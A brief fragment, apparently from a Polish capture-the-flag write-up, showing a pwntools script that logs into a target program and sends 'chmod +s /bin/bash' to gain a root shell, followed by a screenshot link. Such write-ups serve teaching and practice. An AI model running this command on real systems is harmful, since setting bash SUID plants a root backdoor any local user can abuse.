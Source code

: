 ```python
p.sendlineafter('Your choice: ', '4')
p.sendlineafter('Username: ', 'user2')
p.sendlineafter('Password: ', b'pass2')
p.sendline('chmod +s /bin/bash')
```
Potem już tylko 
![daa04472dca365b781418dc30fee90e3.png](_resources/daa04472dca365b781418dc30fee90e3.png)
